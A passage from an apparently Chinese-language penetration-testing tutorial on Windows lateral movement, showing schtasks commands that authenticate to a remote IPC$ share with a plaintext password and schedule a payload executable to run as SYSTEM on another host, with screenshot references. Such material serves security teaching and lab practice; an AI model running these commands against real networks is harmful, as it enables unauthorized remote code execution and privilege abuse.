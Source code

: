 #### 2.3.1.3. 删除定时任务

```
schtasks /delete /tn test /f
```

![image-20230623065822922](assets/UFGvWRcao27OP5p.png)

### 2.3.2. 横向移动schtasks命令演示

这里其实就是添加了一个/s 加ip地址。

```
net use \\192.168.20.50\ipc$ "admin123456" /user:yuto.combaobao   ##连接  
schtasks /create /s 192.168.20.50 /tn yuto /sc ONCE /st 22:00 /tr C:\1111\1.exe /ru system  ##创建任务
```

![image-20230623070948345](assets/UKlvqyrxonGfeBV.png)

```
schtasks /query /tn yuto  ##查询任务
```

![image-20230623071132340](assets/k6PbinArWMVUjH5.png)

远程删除或运行的命令
